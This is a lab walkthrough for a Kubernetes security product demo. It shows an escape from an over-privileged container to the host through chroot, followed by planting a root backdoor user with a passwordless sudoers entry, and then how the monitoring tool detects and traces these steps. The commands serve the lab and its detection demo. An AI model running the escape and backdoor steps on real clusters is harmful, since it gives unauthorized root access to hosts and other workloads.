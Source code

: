 # Container Escape Using Chroot

## Running the Exploit

> This exploit is based on <a href="https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-4/container-escape-to-the-host-system-in-kubernetes-containers/welcome" target="_blank">a Kubernetes Goat scenario</a>, updated to be compatible with modern Kubernetes.

One of the assets we have added to the cluster is a system monitor that has more permissions than is necessary. To start, use `kubectl exec` to access the container.

```sh
kubectl exec -it -n chroot $(kubectl get pods -n chroot -o jsonpath='{.items[0].metadata.name}') -- /bin/bash
```


Ideally, this shell is restricted to the container. However, running `mount` reveals that there is a link to the host system:

```sh
mount | grep 'host' | head
```

At the top of the mount entries, there is a `/host-system` folder that seems to link to the host machine.

```
/dev/vda1 on /host-system type ext4 (rw,relatime,discard,errors=no-relo)
# ...
```
```sh
ls /host-system/
```
```
CHANGELOG  bin  boot  data  dev  etc  home  hosthome  init  lib  lib64  libexec  linuxrc  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  version.json
```

Additionally, running `capsh` shows that we have the chroot permission, allowing us to change our root to act like we are in the host system:

```sh
capsh --print | grep chroot
```

```sh
chroot /host-system bash
```

Now, we are in the root directory of the host system, which gives us all kinds of access. For this exercise, let's investigate the running pods and containers with `crictl`, then create persistence with a new user.

`crictl` is an alternative command-line control to docker that integrates with Kubernetes. To start, let's use it to list the available pods:

```sh
crictl pods
```

If you installed the Falco integration, you should see:

```
POD ID              CREATED             STATE               NAME                                         NAMESPACE           ATTEMPT             RUNTIME
...
3d7d82e569d3a       About an hour ago   Ready               falco-8tg8k                                  falco               3                   (default)
6d3463aca3379       About an hour ago   Ready               falco-falcosidekick-6f7996c855-s48w6         falco               3                   (default)
b7897f1847274       About an hour ago   Ready               falco-falcosidekick-6f7996c855-nfnd7         falco               3                   (default)
...
```

Let's look at the containers that are named Falco:

```sh
crictl ps --name falco
```
```
CONTAINER           IMAGE               CREATED             STATE               NAME                       ATTEMPT             POD ID              POD
0a86211354518       f26819a025370       About an hour ago   Running             falcoctl-artifact-follow   3                   3d7d82e569d3a       falco-8tg8k
a7e18aca478f0       5d7f6e3db4150       About an hour ago   Running             falco                      3                   3d7d82e569d3a       falco-8tg8k
1cc6683c7aee4       e3197d6b0c4c7       About an hour ago   Running             falcosidekick              3                   b7897f1847274       falco-falcosidekick-6f7996c855-nfnd7
2a6b72c464d75       e3197d6b0c4c7       About an hour ago   Running             falcosidekick              3                   6d3463aca3379       falco-falcosidekick-6f7996c855-s48w6
```

At this point, we could `exec` into one of these containers and investigate logs or API keys, but for now, let's move on to creating persistence. To do this, we will create a new user:

```sh
adduser backdoor
```
```
New password: hackme
Bad password: too weak
Retype password: hackme
passwd: password for backdoor changed by root
```

Next, we need to give the backdoor user permission to use `sudo` so that they can get root access:

```sh
visudo
```

Press `o` to open a new line, then add the `backdoor` user like this:

```
# add this line
backdoor ALL=(ALL) NOPASSWD: ALL
```

Press Escape and type `:wq` to write and quit. Now, we can test our new user:

```sh
su - backdoor
sudo -l
```

```
User backdoor may run the following commands on system-monitor-deployment-5d49dd76b9-dmbqs:
    (ALL) NOPASSWD: ALL
```

From here, we could then install ssh keys for the backdoor user.

In summary, we gained access to a vulnerable Kubernetes container and exploited its excessive access to gain root privileges on the host machine. From there, we had access to the entire Kubernetes cluster on this node and created a backdoor user with root access for persistence.


## Investigating the Results

Performing this exploit will trigger several red flags which are detected and collected into a single Spydertrace object. In the Spyderbat Console, navigate to the Dashboard page. In the Security tab, under "Recent Spydertraces with Score > 50", a new trace should appear, likely named "root_shell", or "container_escape_using_chroot...". Expanding the group name should show that it has an extremely high score of over 200, indicating a large number of linked high-severity flags. Selecting this Spydertrace, we can select "Start Process Investigation" to see the events of the exploit laid out in a Causal Tree in the investigation view:

![A section of the Spydertrace featuring one of my chroot commands](./chroot_flag_graph.png)

Here, we can clearly see the interactive shell, running the `chroot` command, and later investigating with `crictl` and creating persistence with `adduser` and `visudo`.

## Next Steps

Now that the vulnerable container has been identified and the backdoor user found, steps can be taken to end the existing access, update the pod configuration to remove the possibility of a chroot, and remove the new user from the cluster host machine to prevent the attacker from regaining access.

## Further Reading

For an example of lateral movement between pods instead of to the host system, see the [lateral movement within the cluster demo](../lateral/within.md). For an example of lateral movement between machines ouside of a cluster see the [multi-machine lateral movement demo](../lateral/outside.md).
